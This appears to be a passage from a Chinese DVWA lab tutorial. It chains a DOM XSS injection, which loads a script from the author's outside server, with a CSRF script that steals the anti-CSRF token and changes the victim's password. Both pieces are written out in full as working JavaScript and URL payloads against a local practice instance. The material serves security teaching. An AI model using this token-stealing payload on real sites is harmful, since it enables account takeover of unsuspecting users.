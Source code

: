 javascript

```javascript
// 首先访问这个页面 来获取 token
var tokenUrl = 'http://127.0.0.1:8888/vulnerabilities/csrf/';

if(window.XMLHttpRequest) {
    xmlhttp = new XMLHttpRequest();
}else{
    xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}

var count = 0;
xmlhttp.withCredentials = true;
xmlhttp.onreadystatechange=function(){
    if(xmlhttp.readyState ==4 && xmlhttp.status==200)
    {
          // 使用正则提取 token
        var text = xmlhttp.responseText;
        var regex = /user_token\' value\=\'(.*?)\' \/\>/;
        var match = text.match(regex);
        var token = match[1];
          // 发起 CSRF 请求 将 token 带入
        var new_url = 'http://127.0.0.1:8888/vulnerabilities/csrf/?user_token='+token+'&password_new=111&password_conf=111&Change=Change';
        if(count==0){
            count++;
            xmlhttp.open("GET",new_url,false);
            xmlhttp.send();
        }
    }
};
xmlhttp.open("GET",tokenUrl,false);
xmlhttp.send();
```

将这个 csrf.js 上传到外网的服务器上，国光这里临时放在我的网站根目录下：





payload

```payload
http://www.sqlsec.com/csrf.js
```

然后此时访问 DVWA DOM XSS 的 High 级别，直接发起 XSS 测试（后面 XSS 会详细来讲解）：





javascript

```javascript
http://127.0.0.1:8888/vulnerabilities/xss_d/?default=English&a=</option></select><script src="http://www.sqlsec.com/csrf.js"></script>
```
